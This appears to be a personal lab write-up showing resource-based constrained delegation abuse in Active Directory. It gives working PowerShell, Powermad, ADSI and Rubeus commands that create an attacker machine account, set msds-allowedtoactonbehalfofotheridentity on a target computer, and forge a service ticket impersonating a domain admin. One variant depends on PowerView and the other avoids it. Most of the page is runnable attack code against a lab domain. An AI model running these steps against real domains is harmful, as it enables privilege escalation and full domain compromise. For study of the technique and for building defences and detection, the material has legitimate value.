 Cause why do things the easy way.

---
This attack allows a user account with genericall over a machine account, to get the ticket of the machine account (or domain admin in this case).
# What does bloodhound say?
Bloodhound has a step by step process to get access to the machine.
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Rubeus.exe hash /password:Summer2018!
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
Only issue is that `Get-DomainComputer` and `Set-DomainObject` are from powerview.

# The other way
## Create the machine account
This can be done by using powermad.ps1
Load powershell with `-executionpolicy bypass` and then load the script. 
```powershell
. .\powermad.ps1
```

With this loaded we can nwo use the `New-MahcineAccount` module.
```powershell
New-MachineAccount -MachineAccount Midgard -Password $(ConvertTo-SecureString 'earthwithacoolername' -AsPlainText -Force)
```
## Get the sid?
I spent way to long trying to find out how to find the sid without using powerview and eventually stumbled across ADSI adapter in powershell. This lets us query the directory for objects.
```powershell
$s = New-Object DirectoryServices.DirectorySearcher
$s.Filter = '(&(objectCategory=computer))'
$s.findall()
```
This gives back the ldap path of the computer which can then be used to get the sidname.
```powershell
$obj = [adsi]"LDAP://CN=Midgard,CN=Computers,DC=ninerealms,DC=local"
$obj.objectsid
```
And its not the normal sid format :( at the time I thought it had to be in the regular format so I converted it.
## Converting the sid for no logical reason.
It was a long day. **OK**
```powershell
$stringSID = (New-Object System.Security.Principal.SecurityIdentifier($obj.objectsid.value,0)).Value
```

## Add the attribute to the machine
From before we already have the binary version of the sid `$obj.objectsid.value`.

Issue is we need to get the target computer, this can be done the exact same way that the machine account was found.
```powershell
$s.findall()
$vicmac = [adsi]"LDAP://CN=MUSPELHEIM,CN=Computers,DC=ninerealms,DC=local"
```

Added the object with put.
```powershell
$vicmac.put("msds-allowedtoactonbehalfofotheridentity",$obj.objectsid.value)
```

## Run Rubeus
```powershell
Rubeus.exe hash /password:earthwithacoolername
Rubeus.exe s4u /user:Midgard$ /rc4:5ESE873D7D2510EB2DE975B7F30DD /impersonateuser:odin /msdsspn:cifs/MUSPELHEIM.ninerealms.local /ptt
```
Now you have the ticket. :)